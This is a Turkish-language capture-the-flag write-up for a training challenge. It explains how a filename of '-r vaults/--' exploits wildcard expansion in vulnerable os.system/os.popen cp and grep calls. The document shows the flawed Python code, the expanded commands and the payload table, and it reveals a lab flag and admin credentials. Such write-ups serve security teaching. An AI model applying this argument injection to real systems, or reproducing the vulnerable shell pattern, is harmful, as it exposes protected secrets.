

# 🔓 Dojo #49 — Secret Manager: Wildcard Injection → Sensitive File Disclosure

> [!abstract] TL;DR
> **Secret Manager** uygulamasında dosya yükleme ve arama işlemlerinde kullanılan `os.system()` ve `os.popen()` fonksiyonları wildcard (`*`) ile birlikte çalıştırılmaktadır. Dosya adı olarak ==`-r vaults/--`== kullanılarak, Linux'taki wildcard genişlemesi manipüle edilmiş ve uygulama seviyesindeki `--exclude-dir` koruması devre dışı bırakılmıştır.
> Sonuç: `internal_secrets` dizinindeki **flag** ve ==admin credential'ları== ifşa edilmiştir.

| Alan | Detay |
| :--- | :--- |
| **Zafiyet Türü** | OS Command Argument Injection (Wildcard Injection) |
| **Hedef** | Secret Manager — Vault Dosya Yönetim Servisi |
| **Durum** | ✅ Accepted → ✅ Resolved |
| **Gönderim** | 2026-02-21 |
| **Puan** | 5 pts (rapor kalitesi) + 7 pts (çözüm) = ==12 pts== |
| **Flag** | `FLAG{A1m_F0r_Th3_St4r!}` |
| **Challenge By** | zerodaygym (community) |

---

## 🎯 Uygulama Analizi

Secret Manager, kullanıcıların gizli dosyaları yazmasına, görüntülemesine ve aramasına olanak tanıyan bir vault servisidir. Arka planda şu shell komutlarını çalıştırır:

```python
# Dosya kopyalama
os.system(f'cp * {VAULT_FOLDER} 2>/dev/null')

# Dosya arama
os.popen(f'grep -r "{grep}" * --exclude-dir=internal_secrets 2>/dev/null')
```

> [!note] Uygulanan Güvenlik Önlemleri
> - `/` ile başlayan dosya adları engellenir
> - `..` içeren dosya adları engellenir
> - `--exclude-dir=internal_secrets` ile gizli dizin arama dışı bırakılır

> [!bug] Eksik Olan Kontrol
> Dosya adının ==tire (`-`) ile başlaması engellenmemiştir==. Linux'ta wildcard `*` genişlediğinde tire ile başlayan dosya adları, komut satırı aracı tarafından **dosya değil argüman/opsiyon** olarak yorumlanır.

---

## 🐛 Zafiyet Detayı

### Wildcard Injection Nasıl Çalışır?



### `cp` Komutu Manipülasyonu

> [!danger] Wildcard Genişlemesi
> ```bash
> # Orijinal komut:
> cp * vaults/ 2>/dev/null
> 
> # Wildcard genişledikten sonra:
> cp -r vaults/-- internal_secrets/ ... vaults/
> ```
> `-r` flag'i recursive kopyalamayı aktif eder → `internal_secrets/` dizini `vaults/` içine kopyalanır.

### `grep` Komutu Manipülasyonu

> [!danger] `--exclude-dir` Bypass
> ```bash
> # Orijinal komut:
> grep -r "." * --exclude-dir=internal_secrets 2>/dev/null
> 
> # Wildcard genişledikten sonra:
> grep -r "." -r vaults/-- ... --exclude-dir=internal_secrets
> ```
> `--` operatörü, grep'e **"bundan sonra opsiyon yok, hepsi dosya/dizin adı"** der.
> Dolayısıyla `--exclude-dir=internal_secrets` bir opsiyon değil, ==sıradan bir dosya adı== olarak işlenir ve koruma tamamen devre dışı kalır.

---

## ⚔️ PoC (Proof of Concept)

### Payload

| Input | Değer |
| :--- | :--- |
| **ACTION** | `search` |
| **FILENAMES** | `-r vaults/--` |
| **CONTENT** | `test` |
| **SEARCH_TERM** | `.` |

> [!example]- Adım Adım Exploit
> 1. Hedef Dojo challenge sayfasına git
> 2. **INPUTS** sekmesindeki input panelini bul
> 3. Yukarıdaki payload değerlerini gir
> 4. **SUBMIT** butonuna tıkla
> 5. HTML yanıtını incele

> [!success] Sonuç
> `internal_secrets` dizininin içeriği tamamen ifşa edilmiştir:
> - **Flag:** ==`FLAG{A1m_F0r_Th3_St4r!}`==
> - **Credential Sızıntısı:** `admin_credentials.txt:admin:super_secret_password_123`

---

## ⚠️ Risk Analizi

| Risk | Açıklama |
| :--- | :--- |
| **Improper Access Control** | Uygulama seviyesindeki dizin kısıtlamaları wildcard manipülasyonu ile bypass ediliyor |
| **Unauthorized Directory Traversal** | Kısıtlı `internal_secrets/` dizinine tam erişim sağlanıyor |
| **Sensitive File Disclosure** | Flag, admin credential'ları ve iç konfigürasyon dosyaları okunabiliyor |
| **Account Takeover** | İfşa edilen `admin:super_secret_password_123` ile tam sistem ele geçirme mümkün |

---